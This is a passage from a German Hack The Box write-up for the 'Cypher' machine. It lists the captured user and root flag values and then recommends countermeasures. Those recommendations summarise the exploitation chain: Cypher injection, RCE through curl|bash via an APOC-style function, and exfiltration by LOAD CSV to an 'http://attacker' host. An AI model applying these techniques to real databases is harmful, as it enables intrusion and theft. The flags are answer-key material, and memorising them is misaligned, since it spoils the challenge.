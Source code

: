 
## 7. Flags

```bash
cat /home/graphasm/user.txt
→ 0a4de27fa731a210ead73b20dfc80140

cat /root/root.txt
→ e5577526fb5f80c5cb113cde4111ab3d
```

![1746479136549](image/Cypher/1746479136549.png)

![alt text](Screenshot 2025-05-05 at 15-53-50 Hack The Box Hack The Box.png)

HTB‑Link: [https://www.hackthebox.com/achievement/machine/2350832/650](https://www.hackthebox.com/achievement/machine/2350832/650)


## Empfehlungen & Geeignete Gegenmassnahmen

1.**Cypher-Injection absichern**

- Die Applikation war verwundbar gegenüber Cypher-Injection durch direkte String-Konkatenation in Neo4j-Abfragen.

   → **Massnahme:** Nutzung von **parametrisierten Cypher-Queries**, z. B. mit `$parameter`-Syntax, um direkte Injektionen zu verhindern.

2.**APOC-Plugins wie getUrlStatusCode beschränken**

- Die Funktion `custom.getUrlStatusCode()` wurde missbraucht, um RCE über `curl|bash` zu erzielen.

   → **Massnahme:** Deaktivieren oder hart absichern aller **unsicheren APOC-Prozeduren**, z. B. durch Whitelisting in der Konfiguration.

3.**Exfiltration über LOAD CSV verhindern**

- Durch `LOAD CSV FROM 'http://attacker'` konnte ein Hash exfiltriert werden.

   → **Massnahme:** Ausgehenden Netzwerkverkehr der Datenbank einschränken, insbesondere HTTP-Zugriffe durch Neo4j.

4.**Zugangsdaten nicht im Klartext speichern**

- Ein Passwort wurde im Klartext in `bbot_preset.yml` gefunden.

   → **Massnahme:** Konfigurationsdateien niemals für Klartext-Passwörter verwenden, sondern Umgebungsvariablen oder sichere Vaults.

5.**SUID-Binaries prüfen**

- SUID-Bash ermöglichte eine einfache Privilege Escalation.
